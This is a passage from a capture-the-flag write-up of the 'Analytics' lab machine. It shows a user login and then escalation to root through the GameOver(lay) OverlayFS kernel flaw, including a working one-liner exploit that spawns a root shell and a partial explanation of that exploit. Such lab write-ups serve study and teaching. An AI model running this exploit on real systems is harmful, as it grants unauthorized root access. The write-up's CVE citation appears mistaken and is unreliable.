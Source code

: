 ```bash
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Oct  3 09:14:35 2023 from 10.10.14.41
metalytics@analytics:~$ 
```

We can now see the user flag inside our home directory: `/home/metalytics/user.txt`.

![Desktop View](AnalyticsUserFlag.png)

-- -
## Shell as Root

Once inside, at first i checked the Kernel version:

```bash
metalytics@analytics:~$ uname -a

Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

Showing a `6.2.0` version seems quite updated, but after a quick search i found that should be vulnerable to `CVE-2023-3262: GameOver(lay)`.

This exploit abuse OverlayFS, that is a common mount filesystem for Linux, i will link below a really good post explaining this vulnerability:

-  **Explanation**: [https://thesecmaster.com/blog/how-to-fix-gameoverlay-two-local-privilege-escalation-vulnerabilities-in-ubuntu-linux-kernel](https://thesecmaster.com/blog/how-to-fix-gameoverlay-two-local-privilege-escalation-vulnerabilities-in-ubuntu-linux-kernel)

The exploit is quite short, it's just a one-liner that allow us to execute a desired command as the user `root`, the exploit looks like this:

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```

---
### Payload Explanation

 `unshare -rm`

- `unshare` is a command that allows you to run a program in a new namespace. A namespace is a feature of the Linux kernel that partitions kernel resources so that one set of processes sees one set of resources while another set of processes sees another, isolated set of resources.
- The `-r` option creates a new user namespace and maps the user to root in the new namespace.
- The `-m` option creates a new mount namespace, meaning that any mounts made won't be seen by processes outside of this namespace.
